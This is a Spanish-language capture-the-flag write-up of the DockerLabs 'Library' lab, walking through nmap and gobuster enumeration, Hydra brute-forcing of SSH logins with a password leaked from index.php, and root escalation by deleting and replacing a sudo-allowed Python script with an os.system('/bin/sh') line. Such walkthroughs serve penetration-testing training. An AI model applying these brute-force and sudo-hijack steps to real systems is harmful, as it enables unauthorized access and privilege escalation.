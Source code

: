 ```yaml
---
title: DockerLabs - Library
summary: "Write-up del laboratorio Library de DockerLabs"
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, information leakage, brute force, sudo, file permissions]
media_subpath: "/assets/img/posts/dockerlabs_library"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:03 GMT
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 9.78s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ nmap -sCV -p80,22 172.17.0.2                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:07 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000074s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
```

## análisis

Comenzamos recuperando recursos de la pagina web:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/index.php            (Status: 200) [Size: 26]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
```

Encontramos que aparte del `index.html`, también esta el `index.php`, el cual contiene una serie de caracteres:

![Desktop View](/20251027011949.webp){: width="972" height="589" .shadow}

## explotación

Probamos a ver si se trata de una contraseña para algún usuario del sistema por SSH:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ hydra -L /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -p JIF************* ssh://172.17.0.2 -t 64 -I 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-27 00:15:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 1000000 login tries (l:1000000/p:1), ~15625 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: c*****   password: JIF*************
```

Usando las credenciales, accedemos a la maquina por SSH:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Library]
└─$ ssh c*****@172.17.0.2
c*****@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.16.8+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
c*****@5b1158daff63:~$ whoami
c*****
```

## escalada de privilegios

Al ir a revisar los permisos SUDO, comprobamos que puede ejecutar un cierto script con Python:

```bash
c*****@5b1158daff63:~$ sudo -l
Matching Defaults entries for c***** on 5b1158daff63:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User c***** may run the following commands on 5b1158daff63:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) encontramos una forma de obtener una consola como `root` si modificamos el contenido del script:

![Desktop View](/20251027012453.webp){: width="972" height="589" .shadow}

El contenido del script es el siguiente:

```bash
c*****@5b1158daff63:~$ cat /opt/script.py
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

Por desgracia, los permisos nos impiden modificarlo:

```bash
c*****@5b1158daff63:~$ ls -la /opt/script.py
-r-xr--r-- 1 c***** root 272 May  7  2024 /opt/script.py
```

Sin embargo, el permiso de ejecución sobre un fichero permite no solo la ejecución en sí, sino también el borrado del mismo:

```
c*****@5b1158daff63:~$ rm /opt/script.py
rm: remove write-protected regular file '/opt/script.py'? y
c*****@5b1158daff63:~$ cat /opt/script.py
cat: /opt/script.py: No such file or directory
```

Dado que el permiso apunta a un directorio en el cual tenemos permisos para poder crear ficheros (`/opt`), podemos crear uno nuevo que se llame igual que el anterior, pero con el contenido que le indiquemos nosotros:

```bash
c*****@5b1158daff63:/opt$ touch /opt/script.py
c*****@5b1158daff63:/opt$ ls -la
total 8
drwxr-xr-x 1 c***** root   4096 Oct 27 00:26 .
drwxr-xr-x 1 root   root   4096 Oct 27 00:02 ..
-rw-rw-r-- 1 c***** c*****    0 Oct 27 00:26 script.py
```

Editamos el nuevo fichero con la instrucción que indicaban que podemos usar para obtener una consola:

```bash
c*****@5b1158daff63:/opt$ cat script.py 
import os; os.system("/bin/sh")
```

Ahora, ejecutamos el script, y vemos que obtenemos correctamente la consola como el usuario `root`:

```bash
c*****@5b1158daff63:/opt$ sudo /usr/bin/python3 /opt/script.py
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>